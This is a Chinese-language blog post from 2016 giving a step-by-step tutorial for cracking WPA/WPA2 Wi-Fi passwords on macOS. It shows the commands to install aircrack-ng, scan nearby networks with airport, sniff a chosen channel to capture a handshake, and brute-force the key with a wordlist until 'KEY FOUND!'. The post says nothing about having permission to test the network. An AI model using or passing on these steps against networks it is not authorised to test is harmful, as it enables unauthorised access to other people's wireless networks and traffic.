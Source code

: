 ```yaml
---
layout: post
title: mac osx 破解wpa/wpa2 wifi
date: 2016-01-06 23:35:26
categories: technique
tags: [mac, tool]
keywords: [wifi, hack, crack]
toc:
---
```


在mac osx下进行wpa/wpa2 加密的wifi破解

- 首先要安装`aircrack-ng`工具
```
#可以使用Homebrew进行安装

brew install aircrack-ng
```
如果安装过程中出现下载失败, [这篇文章](/2016/01/06/brew-手工下载文件安装/)

- 用airport搜索附近wifi
```
sudo airport -s
```
<!-- more -->
结果如下图所示:
![airport -s output](/images/2016/airport_s.png)
- 根据搜索出的wifi进行嗅探
```
sudo airport ***en0*** sniff ***1***
```
上面的en0为wifi card所在的地址, 有的也可能为en1, 可以根据实际情况输入, 可从以下地方获得:
![wifi card addr](/images/2016/wificard_addr.png)

1为你所要嗅探的wifi所在的CHANNEL.

默认嗅探的所存的文件在/tmp中, 以airportSniff****.cap形式命名.

- 最后就是使用aircrack-ng和下载的密码字典进行暴力破解
```
aircrack-ng -w wordlist airportSniff****.cap
```
一般输入如下所示:
![aircrack-ng run output](/images/2016/aircrack-ng.png)

看上面cap文件内的抓包内容, Encryption列中找到WPA (1 handshake)---它表示抓包成功. 当然要找到你想破解wifi的成功抓包, 然后在「Index number of target network?」中输入该成功抓包所在的行号. 此示例中为1:
![index number](/images/2016/index number.png)

破解过程如下:
![aircrack-ng running](/images/2016/running.png)

如果破解成功, 会显示 KEY FOUND!:
![aircrack-ng crack successfully](/images/2016/aircrack-ng success.jpg)
